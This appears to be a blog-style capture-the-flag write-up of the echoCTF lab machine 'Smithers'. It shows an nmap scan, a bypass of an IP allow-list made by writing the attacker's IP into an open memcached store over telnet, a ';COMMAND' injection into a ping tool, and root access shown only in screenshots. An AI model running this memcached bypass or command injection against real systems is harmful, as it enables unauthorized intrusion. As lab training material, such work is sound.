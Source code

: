 ```yaml
---
layout: post
title: Smithers
feature-img: "assets/img/portfolio/smithers_site.png"
img: "assets/img/portfolio/smithers_site.png"
date: 06 Jun 2021
tags: [Lorem, Ipsum]
---
```



[smithers](https://echoctf.red/target/5)


machine description:

Like Smithers this server will serve you well only if you manage to enter it's memcached store.

---

### Enumartion


nmap -sV -sC -p- 10.0.100.142  

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 06:38 EDT
Nmap scan report for 10.0.100.142
Host is up (0.088s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE   VERSION

10888/tcp open  http      nginx
|_http-title: Network Tools

11211/tcp open  memcached Memcached 1.5.12 (uptime 488079 seconds)



## Enumartion

http://10.0.30.0:10888/

```
Network Utilities
These utilities are only available to authorized IP's only. 
If you need access to this page contact the administrator to update the ACL.
Server's version: 1.5.12
Visitor REMOTE_ADDR: 10.10.0.10
REMOTE_ADDR value not found on key.
You are not authorized to access this resource
```

### vulnerability

memcached server runing with full accsess and permisions


### Memcached  Enumartion

[Memcached](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

we can understand that enter site is limite be ip and we see that REMOTE_ADDR value not found on key.

so lets try to add key with my ip address:

1. connecting using telnet 10.0.30.0 11211
2. add REMOTE_ADDR 0 0 10 
3. 10.10.0.10

```
$ telnet 10.0.30.0 11211
Trying 10.0.30.0...
Connected to 10.0.30.0.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
10.10.0.10
STORED

``` 

now we got access to other page with option to run ping


![](assets/img/rce_smithers.png)

### Rce


lets try to run ping with ;COMMAND


![](assets/img/Priv_sec_smithiers.png


### Privilege escalation


![](assets/img/Priv_sec_smithiers.png)
                                                        
as we can see the proceess is running as root.
